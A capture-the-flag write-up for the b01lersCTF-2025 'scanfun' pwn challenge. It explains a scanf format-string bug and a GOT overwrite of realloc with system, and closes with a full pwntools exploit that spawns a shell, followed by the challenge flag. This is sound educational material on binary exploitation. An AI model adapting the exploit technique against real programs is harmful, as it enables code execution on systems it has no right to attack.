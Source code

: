 ```yaml
---
title: b01lersCTF-2025
published: 2025-04-23
description: ''
image: ''
tags: [CTF,Writups]
category: 'Writups'
draft: false 
lang: ''
---
```





# scanfun

## Files
- <a href="/Blog/b01lersCTF-2025/scanfun/Dockerfile">Dockerfile</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/ld-linux-x86-64.so.2">ld-linux-x86-64.so.2</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/libc.so.6">libc.so.6</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner">scanner</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner">scanner</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/scanner.c">scanner.c</a>
- <a href="/Blog/b01lersCTF-2025/scanfun/x.py">x.py</a>

## Chall

This is a `fmt` challenge using the `scanf` function. i didnt find any `scanf` with a `fmt` when i looked online for resources so this is quite an interesting challenge. 

Weirdly enough, when I looked online to see if `scanf` has any positional arguments support, nothing popped up, so I just didn’t take it into consideration. That was until I wrote a simple test C program—and yes, `scanf` does support positional format specifiers.

Alright, back to the challenge. We are given the `scanner.c` file above.

```c
#include <stdio.h>
#include <stdlib.h>

void scan() {
    char scanner[0x50] = {0};
    while (1) {
        fprintf(stdout, "What do you want to scan?\n");
        scanf("%50s\n", scanner);
        scanf(scanner);
        
    }
}


int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    
    printf("Welcome to The Scanner (TM)!!!\n");
    printf("A hint for you. Just a byte, no more [0x%hhx]\n", (((unsigned long)stdout) >> 16) & 0xFF);
    scan();
}
```

It asks us to insert a 50-character string, then passes it to scanf. This means if the input string contains format specifiers, the second scanf will interpret them.

So, we can potentially write something onto the stack. If we can partially overwrite some address with a specific value and then use that value as an index in a subsequent write operation, we can achieve arbitrary write on the stack.

for more details here is a explanation from the discord user `gfelber`
> 1. abuse argv to get relative writes int stack
> ```
> (argv) 0x7fffffffee38 -> 0x7fffffffefe4 (argv[0]) -> 'asdfasdf'
> "%420$hx " <- "6969"
> (argv) 0x7fffffffee38 -> 0x7fffffff6969 (argv[0]) -> 'xxxxxxxx' // different
> "%1337$lx" <- "deadbeef"
> (argv) 0x7fffffffee38 -> 0x7fffffff6969 (argv[0]) -> 0xdeadbeef // arb write in stack
> ```
> 2. we use the query buffer as a stack position oracle (if we write a scanf format string into it we can use it as an oracle)
> 3. because we could hit the query buffer at multiple offsets we move up to the ret ptr back to scan from scanf
> 4. we now know the first 2 bytes of the stack location of the ret address of scan which is good enought for future exploitation


Now with that out of the way, the challenge also leaks the third byte of `stdout`.  

Combined with the ability to partially overwrite an address on the stack, this gives us **almost arbitrary write** into `libc`.
I thought that leaking the third byte wouldn't really break ASLR, but Linux allocates 2MB pages for system libraries.  
So instead of having just a byte and a half (0x1000) of offset, we actually have almost 3 bytes (0x200000) of offset.  
Combined with the ability to write to any address on the stack, this gives us an **arbitrary write** in `libc`.
But first, we need to find a writable `libc` address to make it point to where we want.  
Now comes the second trick with `scanf`: we can use `%ms` to write an arbitrarily sized string into an automatically allocated memory region.  
`libc` will allocate memory the size of the input string and copy the string into it—it uses `realloc` for that.

## The plan

- **Get the offset of `system`** using the leaked byte.  
- **Overwrite the GOT entry of `realloc`** with `system`, then call `scanf("%{idx}$ms")` with `/bin/sh`. This is equivalent to `realloc("/bin/sh")`, which gives us a shell thanks to the GOT overwrite.  
- **Find a writable `libc` address** first.  For that, use `scanf("%{idx}$ms")` with a large string.  `libc` will use `mmap` for the allocation.  (For those who don't know: `mmap` addresses are close to `libc`.)  
- Then **make that allocated address point to `libc.got.realloc`** by overwriting a pointer on the stack.  
- **Overwrite, and GG.**

## `getAddr` Function
```python
def getAddr(addr):
    STDOUT = (libc.sym["_IO_2_1_stdout_"] >> (8 * 2) & 0xff) # fixed addr from libc
    BASE = BYTE - STDOUT                                     # get base using the leaked byte
    ADDR_BYTE = BASE + ((addr >> (8 * 2)) & 0xff)            # calculate new offset byte
    return (ADDR_BYTE << 16) + (addr & 0x00ffff)             # reconstruct the target addr
```

and here is the final payload

<details>
<summary>payload</summary>

```python
from pwn import *

# Explained earlier in the blog
def getAddr(addr):
    STDOUT = (libc.sym["_IO_2_1_stdout_"] >> (8 * 2) & 0xff)
    print(hex(BYTE), hex(STDOUT))
    BASE = BYTE - STDOUT 
    ADDR_BYTE = BASE + ((addr >> (8 * 2)) & 0xff)
    return (ADDR_BYTE << 16) + (addr & 0x00ffff)

elf = context.binary = ELF("scanner")
context.log_level = "ERROR"

while True:
    p = process()
    # p = remote("scanfun.harkonnen.b01lersc.tf", 8443, ssl=True)

    p.recvuntil("no more [")
    BYTE = int(p.recvuntil("]")[2:-1], 16)

    libc = elf.libc

    p.recvuntil(" scan?")
    # Make scanf allocate memory using mmap
    p.sendline(b'%16$ms')
    p.sendline(b'a' * 0x40000)

    # Overwrite GOT entry: realloc -> system
    p.recvuntil(" scan?")
    p.sendline("%16$3c")  # Stack offset, write 3 bytes
    p.sendline(getAddr(libc.got["realloc"]).to_bytes(3, byteorder="little"))

    p.recvuntil(" scan?")
    p.sendline("%18$3c")  # Overwrite with system's address
    p.sendline(getAddr(libc.sym["system"]).to_bytes(3, byteorder="little"))

    print("OK")
    # Trigger realloc("/bin/sh")
    p.sendline(b'%23$ms')
    p.sendline(b"/bin/sh\x00" + b"A" * 0x100)  # Spawn shell

    A = p.clean(1)
    print(A)
    if b"/bin/sh" in A:
        p.interactive()
    else:
        p.close()  # Might fail due to stack argument offsets
```
</details> 

```bctf{bUt_wh0_sc4nfs_the_5canf3r5_psof2s}```